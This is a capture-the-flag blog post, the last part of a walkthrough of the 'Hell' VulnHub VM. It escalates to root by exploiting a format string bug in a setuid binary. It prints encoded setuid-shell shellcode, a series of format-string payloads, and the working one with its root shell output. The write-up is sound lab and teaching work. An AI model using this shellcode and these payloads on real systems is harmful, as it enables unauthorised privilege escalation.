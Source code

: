 ```yaml
---
author: recrudesce
comments: false
date: 2014-07-21 21:14:03+00:00
layout: post
slug: hell-walkthrough-part-5
title: Hell Walkthrough – Part 5
wordpress_id: 143
categories:
- VM's
tags:
- boot2root
- g0tmi1k
- hacking
- hell
- nmap
- peleus
- vulnhub
---
```


[Part 1](http://fourfourfourfour.co/2014/07/17/hell-walkthrough-part-1/) | [Part 2](http://fourfourfourfour.co/2014/07/18/hell-walkthrough-part-2/) | [Part 3](http://fourfourfourfour.co/2014/07/19/hell-walkthrough-part-3/) | [Part 4](http://fourfourfourfour.co/2014/07/20/hell-walkthrough-part-4/) | Part 5

This is the last step. The last hoop that needs to be jumped through. The last wall of hurdles between me and root. LET'S DO THIS !


## Orange Juice Doesn't Echo


The OJ user has 1 file, a binary called echo which does exactly that, it repeats what you send it. This guy is the height of programming ability. There's got to be something wrong with it.
<!-- more -->

A quick look at the binary in IDA, and yes there is something wrong with it, there seems to be something in it that is called a "format string vulnerability".

![](https://pmpaspeakingofprecision.files.wordpress.com/2014/07/confused-child.jpg)

wut ?

What felt like 12 days of reading, and video watching (Fuzzy Security videos are the best - check [this one out for formatstr vuln explanation](https://www.youtube.com/watch?v=NwzmYSlETI8) and the [follow up](https://www.youtube.com/watch?v=CHrs30g-3O0)) I still felt none the wiser.  But I figured I'd give it a go anyway.  What's the worst that can happen ?  I can't make it any more wrong now can I ?

Meh, let's put our shellcode (setuid plus /bin/sh) into memory anyway, just so it looks like we're progressing.


``` bash
export SHELLCODE=$(python -c 'print "\x90" * 1000 + "\x89\xe7\xda\xc3\xd9\x77\xf4\x5f\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x75\x61\x4b\x6b\x51\x7a\x42\x37\x56\x38\x68\x4d\x6d\x50\x43\x5a\x64\x4b\x33\x68\x6a\x39\x36\x32\x35\x36\x51\x78\x44\x6d\x61\x73\x6e\x69\x79\x77\x33\x58\x34\x6f\x31\x63\x32\x48\x73\x30\x43\x58\x54\x6f\x53\x52\x51\x79\x62\x4e\x6f\x79\x7a\x43\x43\x62\x38\x68\x77\x78\x63\x30\x43\x30\x55\x50\x36\x4f\x50\x62\x51\x79\x52\x4e\x66\x4f\x42\x53\x30\x68\x55\x50\x46\x37\x53\x63\x6d\x59\x49\x71\x7a\x6d\x4f\x70\x41\x41"')
```


So, I started to play around with gdb and format strings.
There are several ways you can do format string vulnerabilities - you can put your shellcode in memory using an environment variable, then overwrite a global offset table entry to execute your code (as per the videos), or if you're unlucky like me and have a statically linked binary, you have to find another way such as jumping to a location in the stack. I tried that... it didn't work because my shellcode kept moving in memory.

![](http://media.tumblr.com/201153f420ed4a2ca50fadbcfabacce3/tumblr_inline_n1mltcP4Bf1ss9nq4.gif)

Apparently, though, you can overwrite entries in the .dtor part of the binary - don't ask me what .dtor is, but I had great fun gradually overwriting random memory locations and crashing the application over and over and over again... 

Here are some of the format strings I fabricated while on my journey - you can get an idea of my thought pattern and the things I tested.  It's also pretty obvious when I went back to basics about 7 attempts in.

[plain]
$(python -c 'print "\x5c\xf8\xff\xbf"')-%64362u-%116\$n
$(python -c 'print "AAAA"')-%64362u-%117\$n.
$(python -c 'print "\x14\x96\x0c\x08"')%64362u-%119\$n.
$(python -c 'print "\x5c\xf8\xff\xbf" + "\x5e\xf8\xff\xbf"')-%64362u-%4\$n-%5\$n
$(python -c 'print "\x5c\xf8\xff\xbf"')-%116\$n.
$(python -c 'print "AAAA"')%117\$x
%64364u$(python -c 'print "\x14\x96\x0c\x08"')%119\$n.
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAABBBB%49136u%120\$hn%15217u%119\$hn
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AABB-%00001c%116\$.x%00001c%114\$.x
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AABBBB%49134u%113\$hn%15217c%112\$hn
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AABBBB%49134u%118\$hn%15217u%117\$hn
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAAB%49139u%118\$hn%15217c%117\$hn
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAABBBB%49136u%120\$hn%15217c%119\$hn

```


I spent a lot of time staring at segfault after segfault until I stumbled upon this random combination of characters (I really really want to explain how I worked it out, but I'm not 100% sure myself. I guess that's a follow up post sometime. Also, it is possible this wont work for you).

[plain]
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAAB%49139u%118\$hn%15217c%117\$hn
```


Which when executed like this


``` bash

$ /home/oj/echo $(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAAB%49139u%118\$hn%15217c%117\$hn
```


dropped me to a shell.


``` bash

# id 
uid=0(root) gid=1005(oj) groups=0(root),1005(oj) 
# whoami 
root 
# cat /root/flag.txt 
Congratulations of beating Hell. 

I hope you enjoyed it and there weren't to many trolls in here for you. 

Hit me up on irc.freenode.net in #vulnhub with your thoughts (Peleus) or follow me on twitter @0x42424242 

Flag: a95fc0742092c50579afae5965a9787c54f1c641663def1697f394350d03e5a53420635c54fffc47476980343ab99951018fa6f71f030b9986c8ecbfc3a3d5de 


# 
```


![](http://30.media.tumblr.com/tumblr_lk4maa7rMH1qfgrblo1_500.gif)



Like a baws.  Now I'm going to exorcise the VM and purge every last shred of it from my SSD.  BEGONE FOUL DEMON !
